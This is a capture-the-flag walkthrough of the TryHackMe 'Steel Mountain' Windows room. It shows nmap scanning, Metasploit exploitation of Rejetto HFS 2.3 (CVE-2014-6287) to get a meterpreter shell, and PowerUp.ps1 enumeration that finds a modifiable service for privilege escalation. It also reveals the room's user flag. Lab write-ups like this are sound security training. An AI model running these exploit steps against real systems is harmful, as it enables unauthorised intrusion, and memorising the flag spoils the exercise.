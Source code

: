 # [Steel Mountain - TryHackMe](https://tryhackme.com/room/steelmountain) | Cyanyde

Hack into a Mr. Robot themed Windows machine. Use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and learn a new technique to get Administrator access.

## Credits

- Room created by [tryhackme](https://tryhackme.com/p/tryhackme)
- Room type: Premium

## Initial Access

### Scan the machine with nmap. What is the other port running a web server on?

- `nmap -sV -p- -T5 \<target ip>`
    - *-sV* flag returns service versions
    - *-p-* scans all ports
    - *-T5* increases scan timing agressiveness

```
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8080/tcp  open  http               HttpFileServer httpd 2.3
47001/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49188/tcp open  msrpc              Microsoft Windows RPC
49189/tcp open  msrpc              Microsoft Windows RPC
```

> The non-standard port running a web server is port **8080**

### Take a look at the other web server. What file server is running?

> A quick web search shows that HttpFileServer httpd 2.3 is a version of **Rejetto HTTP File Server**

### What is the CVE number to exploit this file server?

> ExploitDB listing from searching for "rejetto http file server vulnerability": https://www.exploit-db.com/exploits/39161 | CVE-**2014-6287**

### Use Metasploit to get an initial shell. What is the user flag?

- `msfconsole` to start Metasploit and `search cve-2014-6287` to find module listed on ExploitDB
- `use 0` or `use exploit/windows/http/rejetto_hfs_exec` to select exploit
- `set RHOSTS \<target ip>` and `set RPORT 8080` to point the exploit at the second web server on the target machine and `exploit`

> <details><summary>When connected to the target via meterpreter shell, <code>cat C:/Users/bill/Desktop/user.txt</code> to get the flag: </summary>b04763b6fcf51fcd7c13abc7db4fd365</details>

## Privilege Escalation

- Use the [provided tool](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1) to enumerate system
    - *curl* or *wget* the file to attack machine
    - Use `upload` in meterpreter shell to transfer file to target machine

### Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?

- Run `PowerUp.ps1` then use the `Invoke-AllChecks` cmdlet

```
ServiceName                     : AdvancedSystemCareService9
Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart                      : True
Name                            : AdvancedSystemCareService9
Check                           : Modifiable Service Files
```

